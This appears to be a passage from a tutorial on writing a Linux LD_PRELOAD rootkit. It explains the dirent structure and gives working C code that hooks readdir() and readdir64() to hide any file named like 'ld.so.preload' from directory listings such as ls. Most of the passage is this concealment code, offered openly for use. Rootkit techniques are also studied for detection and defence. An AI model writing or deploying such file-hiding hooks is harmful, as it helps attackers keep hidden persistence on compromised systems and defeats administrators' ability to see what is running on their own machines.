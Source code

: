 ```c
struct dirent {
     ino_t          d_ino;       /* Inode number */
     off_t          d_off;       /* Not an offset; see below */
     unsigned short d_reclen;    /* Length of this record */
     unsigned char  d_type;      /* Type of file; not supported not supported by all filesystem types */  
     char           d_name[256]; /* Null-terminated filename */
     };
```

The main parameter which we are concerned about here is the `d_name[256]` which is a mandatory field and contains the name of the various files in our a directory. (See where I am going with this ?)

So here's the roadmap:

- `ls` uses `readdir()` function to get the contents of a directory
- The `readdir()` function returns a pointer to a dirent structure to the next directory entry
- The `dirent` structure contains a d_name parameter which contains the name of the file
- Thus, we hook the `readdir()` function
- Then we pass the parameters to the original function and check whether the `d_name` parameter of the `dirent` whose pointer is being returned is equal to a given a filename
- If yes, we skip it and pass on the rest.

With the map all set, let's get to coding!

```c
#include <string.h>
#include <stdlib.h>
#include <dirent.h>
#include <dlfcn.h>

#define FILENAME "ld.so.preload"

struct dirent *readdir(DIR *dirp)
{
     struct dirent *(*old_readdir)(DIR *dir);     
     old_readdir = dlsym(RTLD_NEXT, "readdir");
     struct dirent *dir;
     while (dir = old_readdir(dirp))
     {
           if(strstr(dir->d_name,FILENAME) == 0) break;     
     }
     return dir;
}

struct dirent64 *readdir64(DIR *dirp)
{
     struct dirent64 *(*old_readdir64)(DIR *dir);     
     old_readdir64 = dlsym(RTLD_NEXT, "readdir64");
     struct dirent64 *dir;
     while (dir = old_readdir64(dirp))
     {
           if(strstr(dir->d_name,FILENAME) == 0) break;
     }
     return dir;
}
```
